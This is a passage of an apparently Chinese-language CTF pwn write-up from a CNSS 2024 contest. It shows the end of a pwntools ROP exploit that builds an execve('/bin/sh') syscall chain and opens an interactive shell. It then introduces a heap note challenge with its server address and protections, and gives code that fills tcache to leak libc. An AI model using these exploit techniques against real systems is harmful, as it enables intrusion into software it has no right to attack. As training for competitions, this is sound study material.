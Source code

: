 ```python
payload = p64(ret)*8 + p64(oxdeadbeef)
payload += p64(rax_ret) + p64(59)
payload += p64(rdi_ret) + p64(bin_sh) + p64(rsi_ret) + p64(0)
payload += p64(rdx_rcx_ret) + p64(0) + p64(0) + p64(syscall)

io.recvuntil(b'word!\n') # 80 0x50
io.sendline(payload)

io.interactive()
```
### 🗒 凝眸回首映芳华
```
⚠ 题目描述
CNSS 娘觉得市面上的笔记软件都不安全，有被泄露的风险，于是自己手搓了一个笔记软件雏形出来~

nc 152.136.11.155 10036

💻 题目附件
点击下载

🚩 Flag格式
cnss{meaningful_sentence}

🔨 暴打出题人
@Timlzh
```
###### &emsp;&emsp;&emsp;以下是出题人的心路历程。
![Screenshot 2024-09-27 112702.png](https://www.helloimg.com/i/2024/09/27/66f65b0bb5560.png)
![Screenshot 2024-09-27 112735.png](https://www.helloimg.com/i/2024/09/27/66f65b0bcdcc6.png)
![Screenshot 2024-09-27 112746.png](https://www.helloimg.com/i/2024/09/27/66f65b0bc6c93.png)
##### &emsp;&emsp;&emsp;看note知堆题，增删改看功能齐活.
```sh
[*] '/home/pwn/worktable/cnss2024/pwn8/pwn'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x3ff000)
    SHSTK:      Enabled
    IBT:        Enabled
```
##### &emsp;&emsp;&emsp;GOT表可写、然后没有PIE。没有堆题常见的UAF、堆溢出、offset-by-one等。不过即使具体漏洞还没找到，也依然可以先 ```leak libc``` 。 <br>&emsp;&emsp;&emsp;首先```strings ./libc.so.6 | grep "glibc"``` 可以看到版本为2.35，所以铁有tcache
```python
for i in range(9):
    add(i, 0x80, b'a') # 0 ~ 8
for i in range(8):
    free(i)  # free 0~7

for i in range(7):
    add(i, 0x80, b'') # 0 ~ 8

add(8, 0x8, b'a'*8) # 8
show(8)
```
##### &emsp;&emsp;&emsp;```show(8)```时就把 libc 泄露了<br>
##### &emsp;&emsp;&emsp;现在再来找具体的漏洞<br>&emsp;&emsp;&emsp;先关注一下堆信息的存储方式，也就是```1. Create a new page of notes```